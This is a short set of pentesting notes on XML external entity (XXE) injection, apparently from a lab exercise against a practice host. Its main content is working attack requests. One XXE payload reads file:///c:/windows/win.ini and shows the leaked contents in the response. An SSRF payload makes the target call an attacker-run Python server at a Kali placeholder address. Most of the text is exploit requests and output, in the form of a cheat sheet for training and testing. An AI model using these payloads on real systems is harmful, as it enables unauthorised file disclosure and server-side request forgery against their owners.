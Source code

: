 # XXE Injection
https://portswigger.net/web-security/xxe

https://whitehats.pwr.edu.pl/research/xxe-injection/

https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html

https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md

## Examples
Legit POST request:
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<order><quantity>1</quantity><item>Home Appliances</item><address>adsadasads</address></order>
```
### LFI
Test LFI (IF we se the output on the HTTP Response)
HTTP Request
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY lfi SYSTEM "file:///c:/windows/win.ini">
]>
<order><quantity>1</quantity><item>&lfi;</item><address>aaaa</address></order>
```
HTTP Response
```
Your order for ; for 16-bit app support
[fonts]
[...]
COM1:=9600,n,8,1
 has been processed
```

### SSRF
Test SSFR to confirm vulnerability
1. Run Python web server on Kali
```
python -m http.server 8081
```
2. Try to perform SSRF
```
POST /process.php HTTP/1.1
Host: 10.129.95.192
[...]
Connection: keep-alive

<?xml version = "1.0"?>
<!DOCTYPE xxe [
    <!ENTITY ssrf SYSTEM "http://<KALI IP>:8081">
]>
<order><quantity>1</quantity><item>Home Appliances</item><address>&ssrf;</address></order>
```
3. We see connection to Python webserver confirming the vuln!

### LFI via SSRF
Great when we want to see file (LFI) but web server does not return our data in HTTP response
https://whitehats.pwr.edu.pl/research/xxe-injection/#ssrf-and-lfi-via-xxe-injection

